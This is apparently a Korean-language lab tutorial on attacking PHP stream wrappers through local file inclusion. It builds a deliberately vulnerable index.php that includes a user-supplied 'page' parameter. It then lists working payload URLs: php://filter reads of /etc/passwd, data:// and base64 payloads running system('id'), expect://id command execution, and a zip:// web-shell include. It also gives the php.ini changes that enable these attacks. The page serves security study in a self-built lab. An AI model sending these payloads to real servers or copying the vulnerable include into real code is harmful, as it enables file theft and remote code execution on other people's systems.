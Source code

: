 # PHP wrapper

| wrapper   | description   |
| :---      | :---:         |
| php://    | 다양항 I/O 스트림 래퍼 |
| zlib://   | 압축 스트림 래퍼 |
| expect:// | PTY를 통해 프로세스의 stdio, stdout, stderr에 대한 액세스 제공 |

https://www.php.net/manual/en/wrappers.expect.php
https://www.php.net/manual/en/wrappers.php

# **INDEX**

**1. [php://filter](#php\:\/\/filter)**

# **환경 구성**

실행 환경

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| php           | 7.4                       |
| apache2       | 2.4.41-4ubuntu3.10        |

apache와 php를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
```

php wrapper에 대한 공격에 취약한 페이지(index.php)를 만들자.

```php
<?php
    if (empty($_GET['page'])) echo 'PHP wrapper';
    else include $_GET['page'];
?>
```

# **php://filter**

http://192.168.0.58/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
http://192.168.0.58/index.php?page=php://filter/string.rot13/resource=/etc/passwd


```sh
root@ubuntu:~# vi /etc/php/7.4/apache2/php.ini
```
```ini
allow_url_include = On
```

http://192.168.0.58/index.php?page=data://text/plain,<?php system('id');?>
http://192.168.0.58/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==


```sh
root@ubuntu:~# apt -y install php-dev php-pear tcl tcl-tclreadline tcl-dev tcl-expect-dev expect expect-dev tk tk-dev
root@ubuntu:~# pecl install expect
```

```sh
root@ubuntu:~# vi /etc/php/7.4/apache2/php.ini
root@ubuntu:~# vi /etc/php/7.4/cli/php.ini
```
```ini
extension=expect.so
```

http://192.168.0.58/index.php?page=expect://id

```sh
root@ubuntu:~# apt -y install php-zip
```

apache2의 계정(www-data)이 압축을 풀 디렉토리의 권한을 가지고 있어야함

http://192.168.0.58/index.php?page=zip://shell.zip%23shell.php
